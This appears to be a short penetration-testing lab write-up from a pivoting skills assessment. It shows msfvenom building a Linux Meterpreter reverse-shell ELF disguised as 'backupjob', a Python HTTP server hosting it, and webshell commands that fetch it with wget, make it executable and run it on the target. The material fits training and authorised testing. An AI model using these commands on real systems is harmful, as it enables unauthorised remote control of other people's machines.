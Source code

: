 ![pivot skills assessment msfconsole](/images/pivot-skills-assessment-msfconsole.png)  

>Create msfvenom payload:  

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.124 -f elf -o backupjob LPORT=8080
```  

>Host payload on kali attack host.

```
python3 -m http.server 443
```  

>In webshell on target execute `wget` to upload `elf` reverse shell connection. The set execute permissions and run to make connection.  

```
cd /tmp 
wget 10.10.15.124:443/backupjob -O backupjob
chmod +x backupjob
./backupjob
```  

![pivot-skills-assessment-msfvenom](/images/pivot-skills-assessment-msfvenom.png)  
